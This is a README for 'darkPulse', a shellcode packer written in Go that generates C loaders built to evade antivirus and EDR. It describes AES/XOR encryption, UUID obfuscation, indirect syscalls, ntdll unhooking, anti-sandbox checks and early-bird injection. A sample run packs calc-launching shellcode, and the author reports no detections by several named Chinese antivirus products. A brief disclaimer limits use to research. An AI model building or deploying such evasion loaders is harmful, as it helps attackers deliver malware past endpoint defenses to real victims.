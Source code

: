 darkPulse是一个用go编写的shellcode Packer，用于生成各种各样的shellcode loader。

目前只实现了c语言的模板。

支持aes/xor加密，uuid/words混淆，支持间接syscall和unhook两种模式下的callback，fiber，earlybird三种加载方式。

间接sysacll使用了SysWhispers3的项目，链接：[klezVirus/SysWhispers3: SysWhispers on Steroids - AV/EDR evasion via direct system calls. (github.com)](https://github.com/klezVirus/SysWhispers3)

unhook使用了[自定义跳转函数的unhook方法 - root@Ev1LAsH ~ (killer.wtf)](https://killer.wtf/2022/01/19/CustomJmpUnhook.html)文中所讲述的方法，文中提到的github仓库https://github.com/trickster0/LdrLoadDll-Unhooking 只实现了64位下的demo，我在 [fdx-xdf/LdrLoadDll-Unhooking-x86-x64 (github.com)](https://github.com/fdx-xdf/LdrLoadDll-Unhooking-x86-x64) 完善了32位和64位通用的一段代码。

使用方法：

首先要配好gcc的环境，命令行运行`gcc -v`有反应即可

```
      _            _    _____       _          
     | |          | |  |  __ \     | |         
   __| | __ _ _ __| | _| |__) |   _| |___  ___ 
  / _` |/ _` | '__| |/ /  ___/ | | | / __|/ _ \
 | (_| | (_| | |  |   <| |   | |_| | \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    \__,_|_|___/\___|                                               

                                  author fdx_xdf
                                  version 1.0
                                  2024.04

Usage:
  -i <path>: 原始格式 Shellcode 的路径
  -enc <encryption>: Shellcode加密方式 (默认: aes)
  -lang <language>: 加载器的语言 (默认: c)
  -o <output>: 输出文件 (默认: Program)
  -k <keyLength>: 加密的密钥长度 (默认: 16)
  -obf <obfuscation>: 混淆Shellcode以降低熵值 (默认: uuid)
  -f <framework>: 目标架构32位还是64位
  -sandbox <true/false>: 是否开启反沙箱模式 (默认: true)
  -unhook <true/false>: 是否开启unhook模式 (默认: false,使用间接syscall加载)
  -loading <loadingTechnique>: 请选择加载方式，支持callback, fiber, earlybird (默认: fiber)
```

示例：

```
darkPulse.exe -i calc_shellcode.bin -f 32 -sandbox -unhook

     _            _    _____  _
     | |          | |  |  __ \| |
   __| | __ _ _ __| | _| |__) | |_   _ ___  ___
  / _' |/ _' | '__| |/ /  ___/| | | | / __|/ _ \
 | (_| | (_| | |  |   <| |    | | |_| \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    |_|\__,_|___/\___|

                                  author fdx_xdf
                                  version 1.0
                                  2024.04

开始为您打包exe

原始shellcode:0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c
, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1
, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48
, 0x01, 0xd1, 0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31
, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58
, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89
, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a
, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00, 0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56
, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72
, 0x6f, 0x6a, 0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00

[+] Generated AES key: 0x66, 0x4d, 0x72, 0x41, 0x70, 0x62, 0x37, 0x70, 0x4b, 0x5a, 0x68, 0x43, 0x62, 0x47, 0x69, 0x6d

[+] Generated IV (16-byte): 0x75, 0x4c, 0x73, 0x77, 0x44, 0x4b, 0x36, 0x62, 0x52, 0x53, 0x6b, 0x76, 0x64, 0x57, 0x62, 0x
32

[+] Using AES-128-CBC encryption

进行加密后的shellcode：0x17, 0x12, 0xa9, 0xb3, 0x8e, 0x84, 0x5b, 0x43, 0xd3, 0x93, 0x42, 0x09, 0x26, 0x6b, 0x16, 0x90, 0
xd9, 0xa0, 0x27, 0x18, 0x5a, 0x91, 0xc8, 0x15, 0xb3, 0x93, 0x4c, 0xf6, 0x65, 0x13, 0x10, 0x0c, 0x00, 0x81, 0xd6, 0xc9, 0
x4f, 0x45, 0x41, 0xa6, 0x5f, 0xc8, 0x69, 0x4e, 0x12, 0x2f, 0x04, 0x55, 0xf2, 0x54, 0x06, 0x15, 0x93, 0x72, 0xbd, 0x6d, 0
x4d, 0x40, 0x77, 0xba, 0x3d, 0x04, 0xb8, 0x9b, 0xcd, 0x6c, 0xe9, 0x08, 0x0f, 0x47, 0xeb, 0x38, 0x35, 0x6a, 0xb3, 0x7f, 0
xfc, 0xfe, 0xd2, 0x7c, 0x8b, 0xeb, 0x08, 0x1f, 0x33, 0x8d, 0xbf, 0xbb, 0x76, 0x53, 0x04, 0x10, 0x70, 0xf2, 0xa9, 0xb0, 0
xb9, 0x8a, 0x0c, 0xc3, 0xcb, 0xce, 0x7c, 0x21, 0x57, 0x11, 0x6f, 0x0c, 0x72, 0x1f, 0x8e, 0x0c, 0xc0, 0xe0, 0x06, 0x93, 0
xe9, 0x64, 0x1e, 0x1e, 0x06, 0x07, 0x16, 0x7d, 0x6f, 0xa0, 0x3e, 0x5d, 0x53, 0x91, 0xef, 0x94, 0x39, 0x84, 0x83, 0x0a, 0
xb4, 0x6e, 0xdd, 0xa8, 0x82, 0x38, 0x8a, 0x20, 0x9b, 0x40, 0x31, 0xaa, 0xb8, 0xd5, 0xe3, 0x60, 0x76, 0xc7, 0x5c, 0x98, 0
xbe, 0xba, 0xd5, 0x55, 0xe1, 0x2c, 0x0f, 0xf3, 0x6a, 0x47, 0x02, 0x03, 0xdd, 0xc3, 0xf0, 0x51, 0x64, 0x20, 0xe8, 0x74, 0
xcf, 0xac, 0x19, 0xbd, 0xf7, 0xae, 0x44, 0x53, 0x91, 0x60, 0x76, 0x36, 0xa0, 0xed, 0x75, 0x3a, 0xcb, 0x5a, 0xda, 0xeb, 0
xc5, 0x6f, 0x9d, 0x44, 0x8c, 0xd2, 0xbb, 0xc6, 0xd1, 0xe0, 0x7d, 0x48

[+] Generated UUIDs:"b3a91217-848e-435b-d393-4209266b1690",
"1827a0d9-915a-15c8-b393-4cf66513100c",
"c9d68100-454f-a641-5fc8-694e122f0455",
"150654f2-7293-6dbd-4d40-77ba3d04b89b",
"08e96ccd-470f-38eb-356a-b37ffcfed27c",
"1f08eb8b-8d33-bbbf-7653-041070f2a9b0",
"c30c8ab9-cecb-217c-5711-6f0c721f8e0c",
"9306e0c0-64e9-1e1e-0607-167d6fa03e5d",
"94ef9153-8439-0a83-b46e-dda882388a20",
"aa31409b-d5b8-60e3-76c7-5c98bebad555",
"f30f2ce1-476a-0302-ddc3-f0516420e874",
"bd19accf-aef7-5344-9160-7636a0ed753a",
"ebda5acb-6fc5-449d-8cd2-bbc6d1e07d48",

正在为您生成模板文件: Program.c

编译成功: Program.exe
```

即在当前目录下生成 Program.exe

注意：syscall下的earlybird方式由于某些bug并没有使用间接syscall方式加载，尽量不要使用，另外xor+uuid的特征过于明显，尽量不要使用。

目前实现效果如下：

微步云沙箱无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1711596621444-4b4ab40f-7327-481f-a5f8-ca2d39330db6.png#averageHue=%23a0dcba&clientId=u723e99f6-9ffc-4&from=paste&height=911&id=u10f5a780&originHeight=1367&originWidth=2549&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=218236&status=done&style=none&taskId=u85e7150f-15a5-4768-a501-f4ea03a3050&title=&width=1699.3333333333333)

360（未开核晶）：无检出

![image](https://github.com/fdx-xdf/goPacker/assets/117912115/c3dcf083-609e-4b55-87c1-8311e5d28a40)

火绒：无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712452727509-f3c2d4b3-90ab-448d-9335-d8ac90a3a2a3.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

360（开启核晶）：无检出（使用syscall和unhook两种方式生成的exe均成功绕过核晶）

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712553684319-6e2573f1-7d58-4c36-9f92-4dba958a67f5.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)
to do list:

- go模板
- 更多加密算法
- 分离加载
- ~~- unhook~~
- .....

## 免责声明

本项目仅用安全研究的学习交流和研究，强烈不建议您用于任何的实际途径（包括黑灰产交易、非法渗透攻击、割韭菜），网络不是法外之地！如果您使用该工具则应该自觉遵守以上要求。
